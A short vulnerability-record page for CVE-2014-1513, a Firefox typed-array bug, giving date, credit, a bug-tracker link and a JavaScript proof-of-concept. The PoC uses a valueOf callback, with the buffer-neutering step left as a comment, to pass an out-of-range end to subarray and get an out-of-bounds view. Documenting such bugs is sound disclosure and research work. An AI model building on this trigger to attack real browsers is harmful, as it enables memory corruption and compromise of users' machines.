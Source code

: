 # CVE-2014-1513

- Date: Mar 2014
- Credit: Jüri Aedla

## PoC

```javascript
var array_buffer = new ArrayBuffer(4000);
var u32arr = new Uint32Array(array_buffer);
var end = {
  valueOf: function() {
    /* neuter buffer */
    return 3000;
  }
};
var oob = u32arr.subarray(0, end);
```

## Reference

- [Issue](https://bugzilla.mozilla.org/show_bug.cgi?id=982974)
